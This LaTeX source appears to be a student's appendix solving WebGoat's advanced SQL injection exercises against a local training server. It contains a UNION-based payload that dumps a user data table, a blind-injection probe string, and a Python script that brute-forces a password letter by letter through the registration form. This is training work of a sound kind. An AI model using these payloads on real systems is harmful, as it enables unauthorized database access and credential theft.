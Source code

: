 \documentclass[
	letterpaper, %
	10pt, %
	unnumberedsections, %
	twoside, %
]{APAAssignment}
\begin{document}
\begin{appendices}
\subsection{SQL Injection (advanced)}

\begin{itemize}
 \item{(3) \verb $a' union select user_system_data. *,NULL,NULL,NULL from user_system_data; --$}
\item{(5) Hint says that table-name is randomized and needs to be retrieved sounds like a blind SQL injection The string `tom' AND substring(password,1,1)='t` gives a "User {0} already exists please try to register with a different username." Response indicating we hit correctly with 1 as the first letter of the password}
\end{itemize}

Automating this into a brute-force attack..


\begin{verbatim}

import requests
import json
## Python script for 'blind' SQL injection

url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
webgoat_session = "OYyd-Kr3f_erhZt5QnVA1-caG64u8PYxcXIt602C"

header = {
"Cookie": "JSESSIONID="+ webgoat_session,
}
password = ""

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

pw_index = 1
for length in range(1,25):
    for letter in alphabet:

                payload = f"tom' AND SUBSTRING(password,{pw_index},1)='{letter}"
        
        data = {
        'username_reg': payload,    
        'email_reg': 'a@a', 
        'password_reg': 'a',    
        'confirm_password_reg': 'a'     
        }

        ## Do a request
        r = requests.put(url,headers=header, data=data)
        ## Grab the "feedback part of the response"
        text = r.json()['feedback']
        if "already exists" in text:
            password += letter
            pw_index +=1
            print(password)
\end{verbatim}

\begin{figure}[!htb] %
	\centering
	\texttt{[image: Pasted image 20240827142530.png]}
	\caption{Brute Force Result}
	\label{fig:InjectionBruteforceResult}
\end{figure}





\end{appendices}
\end{document}
